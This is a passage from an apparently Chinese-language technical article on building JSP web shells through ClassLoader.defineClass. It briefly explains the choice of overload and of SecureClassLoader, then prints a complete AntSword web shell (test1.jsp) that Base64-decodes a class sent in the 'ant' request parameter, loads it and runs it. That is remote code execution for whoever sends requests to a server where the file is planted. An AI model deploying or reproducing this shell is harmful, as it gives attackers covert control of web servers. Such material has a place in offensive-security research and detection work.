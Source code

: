 #### (2)选择合适的defineClass()方法

在ClassLoader类中，`defineClass()`方法有多个重载，可以选择一个可用的重载

本文选择`defineClass(byte[] b, int off, int len)`

#### (3)SecureClassLoader

使用构造器时，应使用`SecureClassLoader`，而不是`ClassLoader`

示例代码：

```
Constructor c = SecureClassLoader.class.getDeclaredConstructor(ClassLoader.class);
```

## 0x03 实现代码
---

为了方便比较，这里给出每种实现方法的代码:

#### (1)test1.jsp

来自[AntSword-JSP-Template](https://github.com/AntSwordProject/AntSword-JSP-Template)中的shell.jsp，代码如下：

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
      Class base64;
      byte[] value = null;
      try {
        base64=Class.forName("sun.misc.BASE64Decoder");
        Object decoder = base64.newInstance();
        value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
      } catch (Exception e) {
        try {
          base64=Class.forName("java.util.Base64");
          Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
          value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
        } catch (Exception ee) {}
      }
      return value;
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(new Object[]{request,response});
    }
%>
```
